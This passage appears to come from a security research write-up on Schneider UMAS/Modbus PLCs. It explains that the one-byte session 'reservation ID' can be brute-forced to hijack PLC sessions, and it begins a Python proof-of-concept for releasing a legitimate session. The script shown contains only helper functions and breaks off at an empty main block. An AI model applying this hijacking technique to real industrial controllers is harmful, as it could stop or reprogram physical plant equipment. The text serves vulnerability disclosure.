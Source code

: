 
*Figure 11: Check of the “reservation ID” in ReleaseReservation function*

As we see in the figure 9, the value of “reservation ID” is checked before performing the majority of operations (Ex: download program, start/stop PLC, release reservation, and so on…)

But this “reservation ID” is code on 1 byte only. In addition, the UMAS session it is not linked with the TCP session. Also there is no blacklist mechanism to protect against bad “reservation ID” request. That means that we can easily brute force it from a remote computer (Man On The Side attack). Then, we can hijack this “UMAS session” to pass the command we want (Ex: stop/start, download program…)!

Please, see below code which releases the legitimate “UMAS session”:
```python
#!/usr/bin/python

import socket
import argparse
import struct

TRANSID = 0



def int8_to_hex(my_int):
    h = hex(my_int)[2:]
    while len(h) < 2:
        h = "0" + h
    return h



def add_modbus_hdr(umas_payload, transId=0):
    p = struct.pack("<H", transId)
    p += "\x00\x00"
    p += struct.pack(">H", len(umas_payload)+1)
    p += "\x00"
    p += umas_payload


    return  p
def send_recv_modbus(socket, data2send, debug=False):
    global TRANSID

    payload = add_modbus_hdr(data2send.replace(" ", "").decode("hex"), TRANSID)
    socket.send(payload)
    TRANSID += 1
    recv = socket.recv(0x400)
    if debug:
        print("SEND: %s" % payload.encode("hex"))
        print("RECV: %s" % recv.encode("hex"))

    return recv


def is_umas_resp_ok(modbus_payload):
    if modbus_payload[7] != "\x5a":
        return False
 if modbus_payload[9] != "\xfe":
        return False

    return True


if __name__ == '__main__':
```